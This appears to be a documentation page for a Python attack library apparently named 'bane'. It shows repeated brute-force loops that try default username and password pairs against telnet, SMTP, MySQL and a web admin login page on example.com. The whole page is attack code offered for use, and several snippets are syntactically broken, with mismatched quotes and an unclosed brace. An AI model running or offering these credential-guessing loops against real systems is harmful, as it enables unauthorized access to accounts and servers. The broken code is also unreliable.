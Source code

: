
<br><h4>telnet2:</h4>(using telnetlib module) 

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.telnet2("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'


<br><h3>SMTP:</h3>

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.smtp("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'

<br><h3>MYSQL:</h3>

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.mysql("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'

<br><h3>ADMIN LOGIN:</h3>

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.adminlogin("http://example.com/admin/login.php",{'username':user,'password':pwd)==1:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'


